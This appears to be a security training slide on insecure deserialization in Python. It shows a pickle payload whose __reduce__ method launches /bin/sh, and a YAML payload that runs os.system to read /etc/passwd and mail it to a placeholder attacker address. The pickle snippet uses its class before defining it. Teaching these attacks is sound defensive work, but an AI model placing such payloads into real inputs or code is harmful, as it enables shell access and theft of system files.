

# Insecure Deserialization (Slide 2 of 2)
# pickle malicious example:
import cPickle
import subprocess
import base64

myexploit = base64.b64encode(cPickle.dumps(malicious()))

class malicious(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/sh',),))

print(myexploit)

# yaml.load malicious example:
!!python/object/apply:os.system ["cat /etc/passwd | mail hacker@foo.c"]
9